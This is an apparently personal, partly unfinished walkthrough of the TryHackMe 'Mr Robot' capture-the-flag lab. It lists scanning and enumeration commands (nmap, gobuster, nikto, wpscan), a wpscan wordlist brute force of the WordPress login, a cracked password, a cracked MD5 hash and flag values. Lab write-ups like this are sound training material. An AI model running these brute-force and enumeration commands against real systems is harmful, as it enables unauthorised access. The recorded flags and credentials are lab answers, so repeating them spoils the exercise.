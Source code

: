 # Matheus Jesus 10-04-2020

## Try Hack Me - MR Robot (https://tryhackme.com/room/mrrobot)

### VPN IP 10.9.5.234
### IP 10.10.77.104

#### nmap

found http server on 80 and 443

#### GOBUSTER

gobuster dir -u http://10.10.77.104:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

found a couple of useful directories

/readme
/robots

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

by running /fsocity.dic -> found a dictionary (maybe used for cracking)
by runnning /key-1-of-3.txt -> found the first key 073403c8a58a1f80d943455fb30724b9

#### NIKTO

run nikto -h 10.10.77.104

#### wpscan

wpscan --url 10.10.77.104 --enumerate vp

#### wp-admin

try login on wordpress

admin:admin -> invalid username
elliot:admin -> invalid password

try bruteforce with dictionary

wpscan --url 10.10.77.104 -P fsocity.dic --usernames elliot

##### Stupid dictionary has ER28-0652 on last item

elliot:ER28-0652

##### CRACK MD5

on /home/robot md5 file
robot:c3fcd3d76192e4007dfb496cca67e13b

abcdefghijklmnopqrstuvwxyz

cat key-2-
822c73956184f694993bede3eb39f959

#### PRIVILEGE ESCALATION

NOT DONE
cd /root
